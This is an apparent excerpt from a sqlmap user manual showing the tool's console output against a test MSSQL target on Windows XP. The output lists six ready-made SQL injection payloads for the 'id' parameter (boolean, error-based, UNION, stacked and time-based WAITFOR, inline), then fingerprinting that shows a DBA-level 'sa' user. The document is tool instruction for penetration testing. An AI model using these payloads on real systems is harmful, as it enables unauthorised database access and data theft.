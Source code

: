 	heuristic (parsing) test showed that the back-end DBMS could be 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
	do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) 	and risk (1)? [Y/n] Y
	GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
	sqlmap identified the following injection points with a total of 25 HTTP(s) requests:
	---
	Place: GET
	Parameter: id
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause
		Payload: id=1 AND 2986=2986
	
		Type: error-based
		Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause
		Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) 	(SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) 	CHAR(109) CHAR(113) CHAR(58)))
	
		Type: UNION query
		Title: Generic UNION query (NULL) - 3 columns
		Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) CHAR(70) CHAR(79) CHAR(118) CHAR(106) CHAR(87) CHAR(101) CHAR(119) CHAR(115) CHAR(114) CHAR(77) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)-- 
	
		Type: stacked queries
		Title: Microsoft SQL Server/Sybase stacked queries
		Payload: id=1; WAITFOR DELAY '0:0:5'--
	
		Type: AND/OR time-based blind
		Title: Microsoft SQL Server/Sybase time-based blind
		Payload: id=1 WAITFOR DELAY '0:0:5'--
	
		Type: inline query
		Title: Microsoft SQL Server/Sybase inline queries
		Payload: id=(SELECT CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN 	(6382=6382) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58))
	---
	web server operating system: Windows XP
	web application technology: ASP, Microsoft IIS 5.1
	back-end DBMS operating system: Windows XP Service Pack 2
	back-end DBMS: Microsoft SQL Server 2005
	banner:	
	---
	Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) 
		Oct 14 2005 00:33:37 
		Copyright (c) 1988-2005 Microsoft Corporation
		Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
	---
	current user:    'sa'
	current database:    'testdb'
	current user is DBA:    True
	
	[*] shutting down at 11:25:52
【原文：sqlmap用户手册  整理发布@小西】



---

## 参考:

1. https://micro8.gitbook.io/micro8/di-yi-zhang-sheng/5-gong-ju-jie-shao-sqlmap
